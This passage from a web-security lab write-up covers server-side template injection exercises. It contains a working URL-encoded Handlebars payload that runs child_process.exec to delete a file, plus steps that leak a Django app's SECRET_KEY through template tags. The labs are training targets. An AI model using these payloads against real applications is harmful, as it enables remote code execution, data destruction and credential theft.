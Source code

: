 ```
    ```https://your-lab-id.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d```
6. The lab should be solved when you load the URL.

**My solution**

1. Try some object and send to intruder that one with Unfortonately message.
2. Set payload and set Grep into that message.
3. We can see that two object with 500 status.
4. Show response in web and find that *HandleBars* occur.
5. Paste after this: 

    ```GET /?message=Unfo```

### Server-side template injection with information disclosure via user-supplied objects

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

**Solution**

1. Log in and edit one of the product description templates.
2. Change one of the template expressions to something invalid, such as a fuzz string *${{<%[%'"}}%\*, and save the template. The error message in the output hints that the Django framework is being used.
3. Study the Django documentation and notice that the built-in template tag *debug* can be called to display debugging information.
4. In the template, remove your invalid syntax and enter the following statement to invoke the *debug* built-in:

    ```{% debug %}```

5. Save the template. The output will contain a list of objects and properties to which you have access from within this template. Crucially, notice that you can access the *settings* object.
6. Study the settings object in the Django documentation and notice that it contains a *SECRET_KEY* property, which has dangerous security implications if known to an attacker.
7. In the template, remove the *{% debug %}* statement and enter the expression *{{settings.SECRET_KEY}}*
8. Save the template to output the framework's secret key.
9. Click the "Submit solution" button and submit the secret key to solve the lab.

### Server-side template injection in a sandboxed environment

```